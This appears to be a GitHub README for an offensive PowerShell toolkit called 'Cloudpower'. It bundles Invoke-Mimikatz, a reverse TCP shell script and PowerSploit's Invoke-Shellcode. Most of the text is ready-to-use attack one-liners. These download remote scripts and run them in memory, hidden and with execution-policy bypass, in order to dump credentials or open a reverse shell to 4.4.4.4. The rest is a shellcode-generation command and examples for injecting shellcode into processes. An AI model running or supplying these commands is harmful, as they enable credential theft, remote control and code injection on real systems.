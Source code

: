 # Cloudpower
test for interest
The Invoke-mimi & Invoke-Shellcode is from https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/

# Help for Invoke-mimi:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
It's a reverse_tcp payload, please set a listener, then do as below:

winx86:

powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

 C:\PS> Invoke-Shellcode -ProcessId 4274

-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode

-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)

-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
